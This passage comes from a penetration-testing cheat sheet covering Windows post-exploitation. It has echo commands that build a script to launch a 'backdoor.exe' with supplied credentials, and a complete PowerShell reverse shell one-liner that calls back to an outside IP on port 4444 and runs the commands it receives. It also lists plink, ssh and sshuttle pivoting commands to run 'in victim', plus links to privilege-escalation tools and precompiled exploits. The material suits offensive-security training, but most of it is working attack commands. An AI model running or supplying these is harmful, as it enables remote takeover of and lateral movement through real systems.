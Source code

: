 ```
echo $username = '<username>' > runas.ps1
echo $securePassword = ConvertTo-SecureString "<password>" -AsPlainText -Force >> runas.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword >> runas.ps1
echo Start-Process C:\Users\User\AppData\Local\Temp\backdoor.exe -Credential $credential >> runas.ps1
```

#### Powershell Reverse Shell

```powershell
Set-ExecutionPolicy Bypass

$client = New-Object System.Net.Sockets.TCPClient('10.11.1.111',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```



### Windows privesc/enum tools

- [windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py)
- [windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)
- [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)

### Windows precompiled exploits

- [WindowsExploits](https://github.com/abatchy17/WindowsExploits)
- [WindowsExploits](https://github.com/nomi-sec/PoC-in-GitHub)
- [WindowsExploits](https://github.com/SecWiki/windows-kernel-exploits)


### Port Forwarding

## Windows

Run in victim (5985 WinRM):

`plink -l LOCALUSER -pw LOCALPASSWORD LOCALIP -R 5985:127.0.0.1:5985 -P 221`

`plink.exe -l kali -pw P@$$word -R 8080:127.0.0.1:445 10.10.16.155`

`ssh -l kali -pw P@$$word -R 445:127.0.0.1:445 10.10.16.155`

## Linux

sudo sshuttle -r sean@10.11.1.251 10.1.1.0/24 -v ## VPN to entire subnetwork

# **Active Directory**
